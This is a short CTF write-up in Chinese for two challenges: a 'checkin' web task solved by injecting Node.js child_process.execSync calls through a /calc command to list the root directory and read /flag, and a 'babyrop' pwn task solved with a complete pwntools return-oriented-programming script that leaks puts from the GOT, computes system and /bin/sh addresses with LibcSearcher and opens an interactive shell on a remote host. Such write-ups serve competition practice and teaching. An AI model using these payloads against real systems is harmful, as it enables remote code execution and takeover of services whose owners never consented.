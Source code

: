 

### checkin

#### 描述

http://101.71.29.5:10010/

#### 解决

~~~
/calc require('child_process').execSync('ls /').toString();
/calc require('child_process').execSync('cat /flag').toString();
~~~

注意使用bp发送socket数据



## pwn

### babyrop

#### 描述

#### 解决

注意LibcSearcher的版本就好。

exp:

~~~python
# coding=utf-8
from pwn import *
import struct
from LibcSearcher import *
import time

p=remote('101.71.29.5',10041)
e=ELF('./babyrop')
libc=ELF('./libc.so.6')
p.recvuntil("Hello CTFer!")
payload=(0x2c-0xc)*'a'+'ffff'
p.sendline(payload)
vul_addr=0x0804853D
puts_plt=e.symbols['puts']
puts_got=e.got['puts']
p.recvuntil("What is your name?")
payload=(0x10+0x4)*'a'+p32(puts_plt)+p32(vul_addr)+p32(puts_got)
p.sendline(payload)
data=p.recvline()
puts_addr=u32(p.recv(4))
libc_puts_addr=libc.symbols['puts']
#第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型
obj = LibcSearcher("puts", puts_addr)
libc_base=puts_addr-obj.dump("puts")
system_addr=libc_base+obj.dump("system")        #system 偏移
sh_addr=libc_base+obj.dump("str_bin_sh")    #/bin/sh 偏移
p.recvuntil("What is your name?")
ret_addr=0x0804839e
payload=(0x10+0x4)*'a'+p32(ret_addr)+p32(system_addr)+'aaaa'+p32(sh_addr)
p.sendline(payload)
p.interactive()
~~~
